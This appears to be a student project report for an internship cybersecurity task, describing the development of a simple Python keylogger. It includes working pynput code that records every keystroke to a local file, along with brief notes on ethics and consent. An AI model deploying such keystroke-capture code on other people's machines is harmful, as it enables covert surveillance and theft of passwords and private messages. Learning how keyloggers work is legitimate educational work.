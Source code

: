 # PRODIGY_CS_Task-04

# Project Title: Simple Keylogger Development

__Author:__ Berlin Shaju Bellarmin

__Date:__ 12/05/2024

# Introduction:

The Simple Keylogger Development project aimed to create a basic keylogger program that records and logs keystrokes. This report provides an overview of the project, including its objectives, implementation process, and outcomes.

# Project Overview:
The keylogger project focused on developing a program capable of capturing keystrokes in real-time and saving them to a file for analysis. The primary objectives were:

Develop functionality to capture keystrokes using Python.
Implement a mechanism to store the captured keystrokes in a file.
Ensure ethical considerations and permissions are addressed for keylogger usage.
Implementation Process:

# 1. Research and Planning:

Conducted research on keylogger implementation techniques, Python libraries, and ethical considerations.
Developed a plan outlining project objectives, requirements, and timeline.

# 2. Coding:

Utilized the pynput library in Python to capture keyboard input.
Implemented a function to write captured keystrokes to a file named keylog.txt.

# 3. Testing and Debugging:

Conducted thorough testing to validate the functionality and reliability of the keylogger.
Addressed any bugs or issues encountered during testing.

# 4. Documentation:

Documented the code implementation, including function descriptions, usage instructions, and ethical considerations.
Prepared a comprehensive report summarizing the project details and outcomes.

# Code Implementation:

```
from pynput.keyboard import Key, Listener

# Define the function to write keystrokes to a file
def on_press(key):
    with open("keylog.txt", "a") as f:
        f.write(str(key) + "\n")

# Create a listener instance
with Listener(on_press=on_press) as listener:
    listener.join()
```
    
# Description:

The code utilizes the __pynput__ library to capture keyboard input.
The __on_press__ function writes captured keystrokes to a file named __keylog.txt__.
A listener instance continuously monitors keyboard events.

__Ethical Considerations:__

Prioritized ethical considerations throughout the development process.
Ensured users were informed about the keylogger's usage and obtained necessary permissions.
Respected user privacy and data protection regulations.

__Outcome:__

The keylogger project was successfully completed, meeting all specified objectives. The program effectively captures and logs keystrokes, providing valuable insights into user activity. Ethical considerations were prioritized, ensuring compliance with relevant guidelines and regulations.

# Conclusion:

The Simple Keylogger Development project provided an opportunity to delve into keylogger implementation techniques and ethical considerations in cybersecurity. The project's successful completion demonstrates the ability to apply theoretical knowledge to practical problem-solving scenarios. Moving forward, I am eager to explore more cybersecurity projects and contribute to the field's advancements.

